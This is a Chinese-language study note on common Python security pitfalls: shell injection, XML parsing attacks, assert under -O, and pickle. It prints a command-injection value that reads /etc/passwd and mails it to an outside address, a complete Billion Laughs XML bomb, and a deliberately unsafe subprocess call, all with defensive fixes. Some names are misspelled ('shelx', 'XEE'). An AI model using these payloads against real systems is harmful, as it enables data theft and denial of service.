

# Common Security Gotchas
[10 common security gotchas in Python and how to avoid them](https://hackernoon.com/10-common-security-gotchas-in-python-and-how-to-avoid-them-e19fbe265e03)

<br>

## 1. 输入注入攻击
--------

输入注入可以发生在下面两种情况

* SQL查询, [SQL injection cheat sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* 命令执行, [Dangerous Python Functions](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)

原因都是没有对输入的数据进行 **“escaping quotes”** 处理，比如下面的视频转码的接口

```
    import subprocess

    def transcode_file(request, filename):
        command = 'ffmpeg -i "{source}" output_file.mpg'.format(source=filename)
        subprocess.call(command, shell=True) # 危险
```

攻击的点就在于，没有对filename做输入验证和处理，如果攻击者传入如下字符串，那就危险了
```
    "; cat /etc/passwd | mail them@domain.com
```

解决办法:
    
* 使用工具对数据的数据进行检查, 对于上述的shell命令，可以用python包 shelx 进行 **escape input** 处理


## 2. 解析XML
--------

xml的攻击有很多种，可以看这个包的说明: [defusedxml](https://pypi.org/project/defusedxml/)

其中的一种攻击叫 "Billion Laughs":

解析一个很小的xml文件可能造成上G的内存占用，比如下面的文件
```
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
      <!ENTITY lol "lol">
      <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
      <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
      <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
      <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
      <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
      <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
      <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
      <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
```
当执行解析上面的代码时，消耗的大量的内存 和 cpu (手动kill，没有等它执行完毕)



<br>

在有一种常用攻击就是XEE攻击

可以直接执行任何命令


解决办法:
    
* 使用defusedxml进行xml的操作


## 3. assert 语句
--------

assert只有在python运行在debug模式下才会生效，如果启用-O时，会忽略这样的判断，如下是python文档中的描述

所以尽量不要用assert来判断

>These equivalences assume that __debug__ and AssertionError refer to the built-in variables with those names. In the current implementation, the built-in variable __debug__ is True under normal circumstances, False when optimization is requested (command line option -O).

## 4. pickle
--------

python 通过调用对象的__reduce__方法来生成序列化的字符串,所以重写这个方法可以执行任何命令

比如 1.3_pickles.py 的例子